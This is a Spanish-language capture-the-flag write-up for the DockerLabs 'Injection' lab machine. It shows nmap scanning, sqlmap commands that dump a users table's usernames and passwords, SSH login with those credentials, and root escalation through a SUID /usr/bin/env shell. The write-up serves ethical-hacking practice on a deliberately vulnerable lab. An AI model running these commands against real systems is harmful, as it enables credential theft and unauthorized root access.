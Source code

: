 ```yaml
---
title: CTF-DockerLabs-Injection
published: true
---
```


## WriteUps maquina Injection de DockerLabs

---
tags:
  - CTF
  - estado/completado
  - plataforma: [DockerLabs]
  - dificultad: Muy fácil
  - autor: [ElPinguinoDeMario]

# Datos

[!INFO] Injection
  -  **Nombre:** Injection
  -  **SO:** Linux
  -  **Dificultad:** Muy fácil
  -  **Enlace:** [Dockerlabs](https://dockerlabs.es/)

[!TODO] Objetivo
  - 🚩Ingresar a la maquina como algún usuario.
  - 🚩Elevar privilegios una vez obtenido el acceso.

El primer paso consiste en iniciar la máquina, lo cual es tan sencillo como ejecutar el siguiente comando después de haber descargado la maquina:

```bash
└─$ sudo bash auto_deploy.sh injection.tar
```

# Reconocimiento

  - Una vez iniciada la maquina, el mismo script de inicio me da la dirección IP a lo cual procedo a realizar un escaneo de puertos de la maquina y el resultado es el siguiente:

```bash
└─# nmap 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 15:28 EDT
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

Al darme cuenta que existe el `puerto 80` abierto, procedo a visitar desde el navegador la dirección IP de la maquina y me encuentro con una pantalla de login, donde es requerido un `User` y un `Password` que al chequear el código fuente, no encuentro nada interesante, pero si aplico la misma lógica que en las maquinas anteriores, respecto al nombre, ejemplo:

- [[Upload]] tenia que ver con la carga de archivos.
- [[Vacaciones]] con las vacaciones de juan.

Puedo pensar entonces que `injection` tenga que ver con `Inyección SQL` quizás, y para comprobar esto, voy a probar una herramienta que mi buen amigo El Pingüino de Mario enseña a utilizar en la [Academia de Ciberseguridad y Hacking Ético](https://elrincondelhacker.es/) El Rincón del Hacker y es `SQLmap` para ello utilizo el siguiente comando:

```bash
sqlmap -u http://172.17.0.2 --forms --dbs --batch
```

Lo que busco con este comando es que me muestre todas las base de datos que se encuentran en este sistema, el resultado es el siguiente:

```bash
[15:44:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL   -= 5.0 (MariaDB fork)
[15:44:52] [INFO] fetching database names
[15:44:52] [INFO] retrieved: 'information_schema'
[15:44:52] [INFO] retrieved: 'register'
[15:44:52] [INFO] retrieved: 'sys'
[15:44:52] [INFO] retrieved: 'mysql'
[15:44:52] [INFO] retrieved: 'performance_schema'
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] register
[*] sys
```

Entonces de acuerdo a ello, ya conozco que existen 5 bases de datos, que estamos ante un Ubuntu 22.04 con un Apache 2.4.52 y usando MariaDB.

Ahora usando la misma herramienta voy a seleccionar la base de datos `register` y que me muestre las tablas de esa bd con el siguiente comando:

```bash
sqlmap -u http://172.17.0.2 --forms -D register --tables --batch

```

Ya tengo la base de datos `register`, tengo la tabla `users` y ahora requiero las columnas, que lo saco así:

```
sqlmap -u http://172.17.0.2 --forms -D register -T users --columns --batch
```

Y ya por ultimo seria obtener los datos de esta columna con el siguiente comando:

```
sqlmap -u http://172.17.0.2 --forms -D register -T users -C passwd,username --dump --batch
```

Con esto logro obtener un usuario y contraseña validos para acceder al formulario web que aparece en el sitio web.

![dylanInjection.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/dylanInjection.png)

  - **Nota:** Si deseas conocer más información sobre inyecciones SQL o el uso de SQLmap, te invito a visitar la [Academia de Ciberseguridad y Hacking Ético](https://elrincondelhacker.es/) donde te enseñan de estos y otros temas.

# Acceso por SSH

  - Lo interesante es que usando las credenciales encontradas con SQLmap he logrado ingresar por SSH a esta maquina, así que estando con el usuario `dylan` por SSH procedo a realizar un `sudo -l` y para mi sorpresa el resultado es:

`-bash: sudo: command not found`

Paso a revisar el directorio `/var/www/html` para chequear los permisos y los archivos allí, pero no encuentro nada especial, así que lo otro que intento es: `find / -perm -4000 -ls 2  -/dev/null` y el resultado es el siguiente:

```bash
dylan@e4df575277c7:~$ find / -perm -4000 -ls 2  -/dev/null
  1464485     72 -rwsr-xr-x   1 root     root        72712 Feb  6 13:54 /usr/bin/chfn
  1464553     72 -rwsr-xr-x   1 root     root        72072 Feb  6 13:54 /usr/bin/gpasswd
  1464611     48 -rwsr-xr-x   1 root     root        47480 Feb 21  2022 /usr/bin/mount
  1464627     60 -rwsr-xr-x   1 root     root        59976 Feb  6 13:54 /usr/bin/passwd
  1464717     36 -rwsr-xr-x   1 root     root        35192 Feb 21  2022 /usr/bin/umount
  1464491     44 -rwsr-xr-x   1 root     root        44808 Feb  6 13:54 /usr/bin/chsh
  1464691     56 -rwsr-xr-x   1 root     root        55672 Feb 21  2022 /usr/bin/su
  1484031     44 -rwsr-xr-x   1 root     root        43976 Jan  8 15:56 /usr/bin/env
  1464616     40 -rwsr-xr-x   1 root     root        40496 Feb  6 13:54 /usr/bin/newgrp
  1469073     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  1469133    332 -rwsr-xr-x   1 root     root         338536 Jan  2 17:54 /usr/lib/openssh/ssh-keysign
```

Me voy para nuestra plataforma favorita [GTFOBins](https://gtfobins.github.io/) y busco uno a uno los scripts del listado para encontrar alguno que se pueda aprovechar con los `SUID`

- **/usr/bin/chfn:** No binary matches...
- **/usr/bin/gpasswd:** No binary matches...
- **/usr/bin/mount:** Sudo
- **/usr/bin/passwd:** No binary matches...
- **/usr/bin/chfn:** No binary matches...
- **/usr/bin/umount:** No binary matches...
- **/usr/bin/chsh:** No binary matches...
- **/usr/bin/su:** Sudo
- **/usr/bin/env:** Shell - SUID - Sudo

# Escalada de privilegios

Y allí encontramos, con mucha paciencia el script vulnerable `/usr/bin/env` a `SUID`, así que según el sitio [GTFOBins] si coloco:

```
sudo install -m =xs $(which env) .
ó
./env /bin/sh -p
```

Puedo acceder como root, pero al colocar el primero no me funciono pues el sudo esta desactivado, pero el segundo tampoco me funciono, pues debo colocar la ruta completa así y listo:

```
/usr/bin/env /bin/sh -p
```

Y allí si estamos dentro (¡PWNED!)

# Comandos

[!IMPORTANT] Resumen de comandos utilizados
  - `sudo bash auto_deploy.sh injection.tar`
  - `nmap 172.17.0.2`
  - `sqlmap -u http://172.17.0.2 --forms --dbs --batch`
  - `sqlmap -u http://172.17.0.2 --forms -D register --tables --batch`
  - `sqlmap -u http://172.17.0.2 --forms -D register -T users --columns --batch`
  - `sqlmap -u http://172.17.0.2 --forms -D register -T users -C passwd,username --dump --batch`
  - `find / -perm -4000 -ls 2  -/dev/null`
  - `/usr/bin/env /bin/sh -p`


```
¡Que la fuerza del hacking ético nos acompañe! :)
```

|   |
|:--|
|   |